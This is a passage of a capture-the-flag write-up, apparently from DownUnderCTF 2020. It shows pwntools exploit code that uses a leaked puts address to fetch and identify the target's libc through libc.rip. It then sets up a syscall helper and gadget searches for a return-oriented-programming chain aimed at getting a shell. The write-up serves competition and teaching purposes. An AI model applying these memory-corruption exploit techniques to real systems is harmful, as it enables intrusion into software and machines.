 ```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'puts':hex(puts)[-3:]}})
        libc_url = r.json()[0]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

Above is identical to [_return-to-what_](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what).  Read that for details.


### Get a shell, get the flag

```python
# 2nd pass: get flag
def syscall(rax=None,rdi=None,rsi=None,rdx=None,r10=None,r9=None,r8=None):
    assert(rax != None)
    payload = b''
    if rdi != None: payload += p64(pop_rdi) + p64(rdi)
    if rsi != None: payload += p64(pop_rsi) + p64(rsi)
    if rdx != None: payload += p64(pop_rdx) + p64(rdx)
    if r10 != None: payload += p64(pop_r10) + p64(r10)
    return payload + p64(pop_rax) + p64(rax) + p64(sys_ret)

try:
    rop = ROP([binary,libc])
    pop_rax = rop.find_gadget(['pop rax','ret'])[0]
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
    pop_rsi = rop.find_gadget(['pop rsi','ret'])[0]
    pop_rdx = list(libc.search(asm('pop rdx; ret')))[0]
    pop_r10 = list(libc.search(asm('pop r10; ret')))[0]
    sys_ret = list(libc.search(asm('syscall; ret')))[0]
except:
    log.info('no ROP for you!')
    sys.exit(0)
```

Above is simple `syscall` function to build _syscall_ payloads followed by a `try` block to _try_ to find all the ROP gadgets we'll need for syscalls.  pwntools fails to find a lot of gadgets, so the fallback is the `libc.search` statement.

None of the syscalls in this exploit require `r9` or `r8`, so I omitted them (there not there anyway, at least not as simple pop/ret pairs).
